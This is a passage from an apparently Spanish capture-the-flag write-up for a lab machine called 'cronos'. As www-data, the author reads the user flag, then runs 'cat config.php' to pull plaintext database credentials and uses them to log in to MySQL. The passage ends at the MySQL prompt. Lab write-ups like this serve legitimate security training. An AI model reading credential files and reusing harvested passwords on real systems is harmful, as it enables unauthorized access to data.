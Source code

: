 ## User.txt 

Podemos ver la **flag** 

```bash
www-data@cronos:/home$ cd noulis/
www-data@cronos:/home/noulis$ ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt 
61a7c302aadebca30bea49c3fa34b259
www-data@cronos:/home/noulis$ 
```

## Escalada de privilegios 

# mysql connect

En esta ruta vemos las credenciales de la base de datos

```bash
www-data@cronos:/home/noulis$ cd /var/www/admin/
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php	welcome.php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
www-data@cronos:/var/www/admin$ 
```

Vemos que nos podemos conectar ala base de datos **admin**

```bash
www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs admin
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

